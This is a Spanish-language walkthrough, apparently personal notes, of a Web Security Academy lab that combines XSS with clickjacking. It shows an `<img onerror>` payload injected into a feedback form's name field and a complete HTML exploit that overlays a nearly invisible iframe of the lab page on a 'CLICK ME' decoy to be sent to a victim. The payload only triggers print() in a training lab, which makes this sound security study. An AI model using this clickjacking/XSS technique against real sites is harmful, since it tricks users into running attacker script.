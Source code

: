 
## Objetivo:

![[Pasted image 20240609212037.png]]


## Solucion:

Vemos un formulario para enviar un "feedback" intentaremos llenar dicho formulario usando la url con parametros y vemos que si se pudo...

![[Pasted image 20240609212408.png]]


Ahora intentaremos averiguar cual de los siguientes campos es vulnerable a XSS... Primero enviaremos el feedback con el boton de "Submit feedback".

Curiosamente el mensaje que se muestra abajo es el mismo del name.

![[Pasted image 20240609212533.png]]


Ahora intentaremos meter un HTML para ver si por alguna razón lo muestra en crudo asi tal cual con todo y etiquetas o lo procesa...

![[Pasted image 20240609212719.png]]

Como pudimos ver lo proceso, ahora tenemos que meter algun script o algo para que esto ejecute un "print()" con un solo click de la victima...

Probaremos  con `<script>print();</script>` y vemos que si se inyecta pero no pasa nada...

![[Pasted image 20240609212942.png]]


Lo que haremos es inyectar un disparador para ejecutar dicho script al mismo tiempo, solamente que le usuario haga click en "Submit Feedback" aumaticamente se dispare el script... Para esto podemos usar `<img src='x' onerror='print()' />`


![[Pasted image 20240609213118.png]]

Y vemos que si funciona

![[Pasted image 20240609213135.png]]

Ok, ya tenemos nuestro "exploit" ahora quedaria armado de la siguiente manera

```
<!DOCTYPE html>

<html lang="en">

<head>

<meta charset="UTF-8">

<meta name="viewport" content="width=device-width, initial-scale=1.0">

<title>Document</title>

  

<style>

iframe {

width: 1000px;

height: 900px;

z-index: 2;

position: relative;

opacity: 0.3;

}

  

div {

position: absolute;

z-index: 1;

top: 810px;

left: 50px;

}

  

</style>

</head>

<body>

<div>CLICK ME</div>

<iframe src="https://0aff001e04fdefdb805b30df0074009e.web-security-academy.net/feedback?email=pwned@mail.com&name=%3Cimg%20src=%27x%27%20onerror=%27print()%27%20/%3E&subject=pwneado&message=prueba"></iframe>

</body>

</html>
```

![[Pasted image 20240609213456.png]]


Y mas de lo mismo cambiar el opacity del iframe a 0.000001, guardar y enviar al a victima...


![[Pasted image 20240609213623.png]]

